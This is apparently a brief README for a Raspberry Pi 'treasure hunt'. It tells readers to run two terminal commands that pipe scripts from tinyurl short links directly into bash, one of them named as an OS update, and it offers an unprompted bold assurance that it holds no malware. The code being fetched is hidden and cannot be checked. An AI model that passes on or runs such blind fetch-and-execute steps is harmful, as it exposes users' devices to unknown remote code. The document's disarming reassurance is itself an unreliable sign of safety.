 # Treasure-Hunt

**THIS DOES NOT CONTAIN ANY MALWARE. YOUR RASPBERRY PI IS SAFE.**

To start the treasure hunt, go to terminal in your pi and type

``wget -O - https://tinyurl.com/pimainhunt | bash``

then

``wget -O - https://tinyurl.com/piupdateos | bash``

Enjoy hunting!
